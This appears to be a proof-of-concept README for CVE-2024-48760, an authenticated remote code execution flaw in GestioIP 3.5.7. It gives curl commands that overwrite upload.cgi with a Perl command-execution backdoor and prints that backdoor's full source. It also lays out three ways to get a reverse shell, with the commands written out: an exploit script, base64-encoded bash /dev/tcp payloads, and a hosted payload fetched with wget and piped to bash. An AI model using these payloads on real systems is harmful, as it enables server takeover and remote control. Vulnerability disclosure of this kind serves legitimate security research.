









# CVE-2024-48760

- [Information](#information)
	- [Description](#description)
- [Attack Vector](#attack-vector)
	- [Upload a test file "README.txt"](#upload-a-test-file-readmetxt)
	- [Upload a backdoor](#upload-a-backdoor)
- [Reverse Shell](#reverse-shell)
	- [Option 1: using the python script](#option-1-using-the-python-script)
	- [Option 2: using base64 and bash to execute the reverse shell](#option-2-using-base64-and-bash-to-execute-the-reverse-shell)
		- [Single Encode base64](#single-encode-base64)
		- [or: double encode your payload (to avoid '+' signs)](#or-double-encode-your-payload-to-avoid--signs)
	- [Option 3: hosting a file and then calling for it](#option-3-hosting-a-file-and-then-calling-for-it)
- [Files](#files)
	- [Python script](#python-script)
	- [Server upload.cgi (backup file)](#server-uploadcgi-backup-file)
	- [Backdoor code](#backdoor-code)


## Information

### Description

An issue in GestiolP v.3.5.7 allows a remote attacker to execute arbitrary code via the upload function.

The link to the vulnerable file is: [http://localhost/gestioip/api/upload.cgi](http://localhost/gestioip/api/upload.cgi)  

(assuming localhost in a local test)


**Versions Affected:** 3.5.7 <br>

**Vulnerability Type:** Authenticated Remote Command Execution


## Attack Vector

To exploit this vulnerability, a file named `perlcmd.cgi` that is the attacker Perl backdoor can be uploaded **overwriting** the original file named `upload.cgi` in the target. This backdoor allows the attacker to execute remote commands.

To upload the backdoor file the attacker needs valid credentials in the app.






### Upload a test file "README.txt"

In this test I'm uploading a local file named `README.txt` with my user `maxi` and it will be saved as `README_server.txt`.

`curl -s -X POST -u maxi:maxi123 'http://localhost/api/upload.cgi' -F 'file_name=README_server.txt' -F "leases_file=@README.txt"`





### Upload a backdoor

The attacker can directly use a *python script* that uploads the backdoor (execute commands, restore config., etc) or use the same method as before, **overwrite** the file `upload.cgi` with another file (eg. `perlcmd.cgi`); for example:

`curl -u gipadmin:PASSWORD -F "file_name=upload.cgi" -F "leases_file=@perlcmd.cgi" "http://localhost/api/upload.cgi"`

Then, just call it from the browser




## Reverse Shell

After the backdoor is uploaded, the attacker can start a netcat listener in a console in order to receive a remote connection from the victim (a reverse shell). The attacker needs to call the backdoor with the right commands.

There could be various options, I'm just listing you some of them (the order doesn't reflect preference).


### Option 1: using the python script

The script verifies if the target file `upload.cgi` has been already replaced by an attacker backdoor or not.

If not, the script uploads the backdoor overwriting the target file and then it runs commands to establish a reverse shell to the attacker listener (edit the script to set the IP address, port).

**1. Edit the script**

You need to set this parameters before running the script:

`username = "gipadmin"`

`password = "PASSWORD"`

`domain = "localhost"`

`local_ip = "10.20.0.1"`

`local_port = 443`


**2. Listener**

Open your netcat listener

`nc -nlvp 443`


**3. Run the script**

Just run:

`python3 exploit-gestioip.py`



If you exit and need to access again, the script does it ok:




### Option 2: using base64 and bash to execute the reverse shell


#### Single Encode base64

Encode your payload like this:

```
echo 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1' | base64         

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4wLjEvNDQzIDA+JjEK
```

So, you can call the backdoor from the browser

```
http://localhost/gestioip/api/upload.cgi?echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4wLjEvNDQzIDA+JjEK' | base64 -d | bash
```


and receive the reverse shell:



#### or: double encode your payload (to avoid '+' signs)

```bash

echo 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1' | base64 | base64

WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=

```

If you used double encode, the URL would be:

```
http://localhost/gestioip/api/upload.cgi?echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=' | base64 -d | base64 -d | bash
```

instead of using the browser you could use `curl` too:

```
urlencode "echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=' | base64 -d | base64 -d | bash"

curl -u gipadmin:PASSWORD "http://localhost/gestioip/api/upload.cgi?echo%20%27WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo%3D%27%20%7C%20base64%20-d%20%7C%20base64%20-d%20%7C%20bash"
```


### Option 3: hosting a file and then calling for it


Write a local file named `index.html` with a content like this:

`└─$ cat index.html` 

`bash -c 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1'`


Then, just host the `index.html` file using python http server:

`└─$ python3 -m http.server 8090`

`Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...`


Put this into your browser:
```
http://localhost/gestioip/api/upload.cgi?wget http://10.20.0.1:8090 && cat index.html | bash
```

The python http server receives the GET request that comes from the target.



afterwards the listener receive the reverse shell:




---

## Files


### Python script

[exploit-gestioip.py](exploit-gestioip.py)


### Server upload.cgi (backup file)

[upload.cgi.bkp](upload.cgi.bkp)


### Backdoor code

[perlcmd.cgi](perlcmd.cgi)

```perl
#!/usr/bin/perl -w

use strict;

print "Cache-Control: no-cache\n";
print "Content-type: text/html\n\n";

my $req = $ENV{QUERY_STRING};
        chomp ($req);
        $req =~ s/%20/ /g; 
        $req =~ s/%3b/;/g;
        $req =~ s/%7c/|/gi;
        $req =~ s/%27/'/g;    # Converts %27 into '
        $req =~ s/%22/"/g;
        $req =~ s/%5D/]/g;
        $req =~ s/%5B/[/g;

print "<html><body>";

print '<!-- CGI backdoor by DK (http://michaeldaw.org). Modified by m4xth0r (https://maxibelino.github.io) -->';

        if (!$req) {
                print "Usage: http://domain/gestioip/api/upload.cgi?whoami";
        }
        else {
                print "Executing: $req";
        }

        print "<pre>";
        my @cmd = `$req`;
        print "</pre>";

        foreach my $line (@cmd) {
                print $line . "<br/>";
        }

print "</body></html>";
```

